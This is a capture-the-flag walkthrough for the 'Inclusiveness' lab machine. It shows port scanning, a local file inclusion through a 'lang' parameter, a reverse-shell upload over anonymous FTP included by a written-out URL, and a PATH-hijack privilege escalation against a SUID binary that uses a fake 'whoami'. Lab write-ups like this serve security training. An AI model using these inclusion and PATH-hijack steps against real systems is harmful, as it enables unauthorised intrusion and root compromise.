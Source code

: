 ```yaml
---
title: Inclusiveness
categories: [Proving Grounds Play]
tags: [FTP, LFI, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  Inclusiveness Machine 🖥️
---
```



### Lets check the IP address ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled.png)

```bash
IP : 10.10.2.50
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Inclusiveness]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.50
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 21:15 IST
Nmap scan report for 10.0.2.50
Host is up (0.00068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:6F:A3:19 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%201.png)

Lets see the directory listing files —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%202.png)

Now lets check the `robots.txt` file ➡️

![image_1.png](/Vulnhub-Files/img/Inclusiveness/image_1.png)

Now lets look at this directory —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%203.png)

Lets check for english link which leads me for directory traversal attack → `/etc/passwd` →

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%204.png)

Other than this I was unable to get any foothold into any internal directory files so I brute-force with LFI Injection payloads through burpsuite and I got this file —> `/etc/vsftpd.conf`

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%205.png)

Now I have also access with ftp so lets upload the reverse shell file in it —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%206.png)

Now I have uploaded the file in location /ftp/pub/shell.php lets load it and get my reverse shell →

URL —> `http://10.0.2.50/secret_information/?lang=/var/ftp/pub/shell.php`

In response to that I got this —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%207.png)

Now lets recon further ⤵️

```bash
www-data@inclusiveness:/home/tom$ ls -al
ls -al
total 100
drwxr-xr-x 15 tom  tom   4096 Feb  8  2020 .
drwxr-xr-x  3 root root  4096 Feb  8  2020 ..
-rw-------  1 tom  tom    684 Feb  8  2020 .ICEauthority
-rw-r--r--  1 tom  tom    220 Feb  8  2020 .bash_logout
-rw-r--r--  1 tom  tom   3526 Feb  8  2020 .bashrc
drwx------ 10 tom  tom   4096 Feb  8  2020 .cache
drwx------ 10 tom  tom   4096 Feb  8  2020 .config
drwx------  3 tom  tom   4096 Feb  8  2020 .gnupg
drwx------  3 tom  tom   4096 Feb  8  2020 .local
-rw-r--r--  1 tom  tom    807 Feb  8  2020 .profile
drwx------  2 tom  tom   4096 Feb  8  2020 .ssh
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Desktop
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Documents
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Downloads
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Music
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Pictures
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Public
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Templates
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Videos
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c
www-data@inclusiveness:/home/tom$
```
{: .nolineno}

Lets check the `rootshell` file which executes as root and I have access to read `rootshell.c` file →

```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

www-data@inclusiveness:/home/tom$
```
{: .nolineno}

Now In this program whoami should be equal to tom to get our shell so I have to make whoami which says echo’s tom and it will execute accordingly →

```bash
www-data@inclusiveness:/home/tom$ cd /tmp
cd /tmp
www-data@inclusiveness:/tmp$ echo 'echo "tom"' >whoami
echo 'echo "tom"' >whoami
www-data@inclusiveness:/tmp$ cat whoami
cat whoami
echo "tom"
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ /home/tom/rootshell
/home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# /bin/bash -i
/bin/bash -i
root@inclusiveness:/tmp# whoami
whoami
tom
root@inclusiveness:/tmp# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
root@inclusiveness:/tmp# whoami
whoami
root
root@inclusiveness:/tmp# cd ~
cd ~
root@inclusiveness:/root# ls -al
ls -al
total 64
drwx------  5 root root  4096 Feb  8  2020 .
drwxr-xr-x 19 root root  4096 Feb  8  2020 ..
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwx------  2 root root  4096 Feb  8  2020 .cache
-rw-------  1 root root    34 Feb  8  2020 .lesshst
drwxr-xr-x  3 root root  4096 Feb  8  2020 .local
-rw-r--r--  1 root root   148 Aug 18  2015 .profile
drwxr-xr-x  2 root root  4096 Feb  8  2020 .vim
-rw-------  1 root root 21141 Feb  8  2020 .viminfo
-rw-r--r--  1 root root    21 Feb  8  2020 .vimrc
-rw-r--r--  1 root root   141 Feb  8  2020 flag.txt
root@inclusiveness:/root# cat flag.txt
cat flag.txt
|\---------------\
||                |
|| UQ Cyber Squad |       
||                |
|\~~~~~~~~~~~~~~~\
|
|
|
|
o

flag{omg_you_did_it_YAY}
root@inclusiveness:/root#
```